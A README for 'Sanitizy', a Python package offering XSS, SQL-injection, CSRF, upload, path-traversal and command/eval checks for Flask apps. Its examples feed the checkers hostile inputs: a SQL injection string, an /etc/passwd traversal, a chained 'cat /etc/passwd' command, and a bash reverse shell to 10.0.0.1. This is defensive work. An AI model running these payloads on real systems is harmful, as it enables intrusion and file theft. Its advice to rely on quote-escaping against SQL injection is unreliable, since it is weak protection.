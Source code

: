 # Sanitizy
This is a simple and very light weight python package to help securing python web applications in general especially Falsk apps since they lack security !!

# Usage:

<h3> XSS:</h3>
<h4> Escpae some value:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">from sanitizy import *
<br>XSS.escape('&lt;h1&gt;')# produces: '&#x26;lt;h1&#x26;gt;'  </pre></div>
<h4> Escpae all Flask's paramaters GET:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">XSS.escape_args(request)#produces a dict with escaped values  </pre></div>
<h4> Escpae all Flask's paramaters POST:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">XSS.escape_form(request)#produces a dict with escaped values </pre></div>

<h3> SQL-Injection:</h3>
<h4> Escpae some value:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">from sanitizy import *
<br>SQLI.escape("' or 1=1 or '")# produces: "\' or 1=1 or \'"  </pre></div>
<h4> Escpae all Flask's paramaters GET:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SQLI.escape_args(request)#produces a dict with escaped values </pre></div>
<h4> Escpae all Flask's paramaters POST:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">SQLI.escape_form(request)#produces a dict with escaped values </pre></div>

<h3> CSRF:</h3>
<h4> Check if the request is coming from the application itself or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">CSRF.validate("http://www.google.com",["www.google.com","www.bing.com"])#takes the referer header value and a list of allowed domains, then returns 'True' if it's safe and 'False' if not  </pre></div>

<h4> Check if the request is coming from the Falsk application itself or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">CSRF.validate_flask(request)#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> File Upload:</h3>
<h4> Check if the file is safe or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FILE_UPLOAD.check_file(request.files['file'],allowed_extensions=['png','jpg','jpeg','gif','pdf'],allowed_mimetypes=["application/pdf","application/x-pdf","image/png","image/jpg","image/jpeg"])#returns 'True' if it's safe and 'False' if not  </pre></div>
<h4> Save files securely:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FILE_UPLOAD.save_file(request.files['file'],path="uploads/")#it will returns the path to the uploaded file</pre></div>

<h3> Path Traversal:</h3>
<h4> Check if the file is safe to open/download or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">PATH_TRAVERSAL.check("../../../../../../etc/passwd")#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> RCE (Remote Code/Command Execution):</h3>
<h4> Check value is safe to pass to a command or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">RCE.command("ls -a ;cat /etc/passwd ")#returns 'True' if it's safe and 'False' if not  </pre></div>
<h4> Check value is safe to pass to an "eval" function or not:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">RCE.eval("__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1")#returns 'True' if it's safe and 'False' if not  </pre></div>

<h3> Validate User Inputs:</h3>
<h4> Check value contains alphabets only:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.alphabet("ala bouali",length=(1,50))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value contains numbers only:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.numeric("233 21 4",length=(1,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value contains alphabets only:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.alphabet("ala bouali",length=(1,50))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is alphanumeric:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.alphanumeric(" ala bOuali12 56",length=(1,50))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is an Email:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.email("alabouali@gmail.com",length=(6,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is a Phone Number:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.phone_number("+123456789",length=(6,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value is a long enough Password:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.password("fvccabah$vhj",length=(8,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if 2 Passwords match and if they are long enough:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.passwords_match("fvccabah$vhj","fvccabah$234",length=(8,15))#returns 'True' if it's correct and 'False' if not  </pre></div>

<h4> Check if value matches a specific Regex:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">FORM_INPUTS.regex_match("alabouali@gmail.com",r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b',length=(6,15))#returns 'True' if it's correct and 'False' if not  </pre></div>


